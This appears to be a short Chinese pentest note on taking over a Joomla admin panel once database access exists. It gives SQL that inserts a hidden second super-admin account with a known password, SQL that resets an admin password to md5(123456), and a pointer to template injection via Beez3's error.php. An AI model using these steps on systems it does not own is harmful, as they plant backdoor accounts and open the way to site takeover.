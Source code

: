# 参考链接

```
https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn
```



## 第一种方法：

![](./assets/image-20250603125943204.png)

```
INSERT INTO `am2zu_users`   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2','d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`) VALUES (LAST_INSERT_ID(),'8');
```

![image-20250603125959107](./assets/image-20250603125959107.png)

然后利用admin2：secret登录



## 第二种方法：

手动修改密码，md5加密即可

```
update am2zu_users set password=md5(123456) where id = 891;
```

![image-20250603130012476](./assets/image-20250603130012476.png)

利用administrator：123456登录后台



## 相关打法

模板注入

常见Beez3模板

```
/templates/beez3/
```

如error.php

```
/templates/beez3/error.php
```

